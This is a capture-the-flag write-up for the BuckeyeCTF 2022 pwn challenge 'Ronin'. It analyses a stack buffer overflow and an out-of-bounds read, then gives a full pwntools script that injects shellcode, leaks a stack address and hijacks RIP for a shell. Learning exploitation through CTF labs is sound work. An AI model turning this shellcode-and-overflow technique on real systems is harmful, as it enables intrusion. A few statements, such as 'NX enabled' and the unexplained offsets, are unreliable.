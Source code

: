 * TOC
{:toc}

This is a writeup about the 2022 BuckeyeCTF challenge `Ronin`

# BuckeyeCTF2022 Ronin Challenge | Thomas Spencer

> Category `pwn` | Difficulty: `medium`

# Recon

## File

```
ronin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=eb4ccdef02a96139df6de419cbc283e0f26f1d85, for GNU/Linux 3.2.0, not stripped
```

## Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

NX, RWX, and no canary means we probably can do a shellcode injection!


# Functions

## Main

* Asks for user input

    * No buffer overflow

* Progress if we enter the string `"Chase after it."` as the first bit of our input

    * This means we can fill the rest of the buffer (size 80) with whatever we want!

## Chase

* Entered by typing `"Chase after it."` in `main`

* Has a local array of 4 strings


> "The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n";

> "Tall, thick trees surround you. You can't see a thing. Best to go back.\n";

> "You found the monkey! You continue your pursuit.\n";

> "You find a clearing with a cute lake, but nothing else. Turning around.\n";


* Function takes in a user input, and will call the `search` with the chosen string

* Only checks if the user choice is less than 4

    * This means we can input a negative value since our input is a signed integer

## Search

* Will just print out the text from the previous function

    * Unless the user input was 2 (find monkey string), then we go into the encounter function

    * **Notice: after the encounter function call is an `exit(0)` call!**

## Encounter

* Clears the input

* Prints out some text

* Uses `fgets(s, 49, stdin)` on a buffer of size `32`

    * This means we can overflow saved RBP and saved RIP only


# Vulnerabilites

* Buffer Overflow in `encounter` function

    * Will have to be last because of the `exit(0)` call afterwards

* Out of bounds read on the string array in `chase`

    * Only negative values allowed

    * Output will be simply printed out, and we can keep looping this indefinetly

# Plan of Attack

* NX enabled and RWX means we should make some shellcode. A simple `execl('/bin/bash', ...)` will do

* We'll have to leak the stack address (particularily of the array in main) to find our shellcode

    * Will have to be done with the out of bound read in `chase`

# Exploit Outline

* Enter main, put `"Chase after it."` + `shellcode` as our input

* Run through `search` with a valid string to seed the stack with proper data

* Run through `search` again with a negative offset to leak saved RBP

    * This saved RBP will be for the `chase` function!

* Use the leak to find the address of our shellcode

* Enter `encounter` and overflow RIP to jump to our shellcode

* Profit B)

# TODO:

* Need to figure out why the offset is saved RBP to shellcode offset is `0x50`

* Need to figure out why the offset to leak the saved RBP is `(0x10 + 0x8 + 0x8) // 0x8 = 4`

# Final Script

```python
#!/bin/env python3
from pwn import *

FILE = "./ronin"

DEBUG = False 

context.arch = "amd64"
context.encoding = "latin"

if (DEBUG):
	context.log_level = "debug"

warnings.simplefilter("ignore")

shellcode = asm("\n".join([
	"xor rax, rax",
	"push rax",
	"mov rax, 0x3b",
	"lea rdi, [rip+binsh]",
	"push rdi",
	"mov rsi, rsp",
	"xor rdx, rdx",
	"syscall",
	"binsh:",
	".string \"/bin/sh\"",
]))

LEAK_OFFSET = 0x10 + 0x8 + 0x8
SHELLCODE_OFFSET = 0x50 - len(b'Chase after it.')

p = process([FILE])

if (DEBUG):
	input("Attach Now!")

# Part 1, inject shellcode
p.recvuntil(b'You look up to see a monkey wielding your sword! What will you do?')
p.sendline(b'Chase after it.' + shellcode)

# Part 2, seed stack
p.recvuntil(b'far. Which way will you look? ')
p.sendline(b'0')

# Part 3, leak data
p.recvuntil(b'The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n')
p.sendline(str(-LEAK_OFFSET // 8).encode())

RBPLEAK = p.recv(8)
RBPLEAK = int.from_bytes(RBPLEAK, "little")
print(hex(RBPLEAK))

# Part 4, Overflow
p.sendline(b'2')
p.recvuntil(b'This monkey can talk. "Tell me a joke." ')

payload  = b'A'*0x20
payload += b'B'*0x8
payload += p64(RBPLEAK - SHELLCODE_OFFSET)

p.sendline(payload)

p.interactive()
p.close()
```
